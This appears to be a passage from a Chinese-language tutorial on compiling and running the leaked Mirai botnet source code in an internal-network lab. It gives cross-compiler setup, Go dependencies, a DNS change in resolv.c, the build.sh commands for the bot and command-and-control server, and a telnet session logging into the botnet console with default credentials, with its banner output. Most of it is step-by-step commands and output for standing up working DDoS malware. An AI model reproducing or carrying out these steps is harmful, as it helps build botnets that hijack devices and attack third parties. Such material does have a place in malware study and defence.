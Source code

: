 ```
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin
root@ubuntu:/home/test/Desktop# source ~/.bashrc 
```
编译go的相关环境<br>
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code# go get github.com/go-sql-driver/mysql
root@ubuntu:/home/test/Desktop/Mirai-Source-Code# go get github.com/mattn/go-shellwords
```
这里因为是内网环境需要对`resolv.c`中的DNS参数进行重新配置，否则会出现无法解析域名的情况<br>
将`8.8.8.8`改成`192.168.3.36`<br>
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai/bot# vim resolv.c
84  addr.sin_addr.s_addr = INET_ADDR(192,168,3,36);
```
编译cnc和bot<br>
```
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai# ./build.sh debug telnet
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/loader# ./build.sh
```
到此环境搭建完成


使用篇
终端一：
root@ubuntu:/home/test/Desktop/Mirai-Source-Code/mirai# ./debug/cnc 
Mysql DB opened

终端二：
root@ubuntu:/home/test# telnet 192.168.3.34 23
Trying 192.168.3.34...
Connected to 192.168.3.34.
Escape character is '^]'.
点击回车
я люблю куриные наггетсы
пользователь: mirai-user
пароль: mirai-pass

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
mirai-user@botnet# 
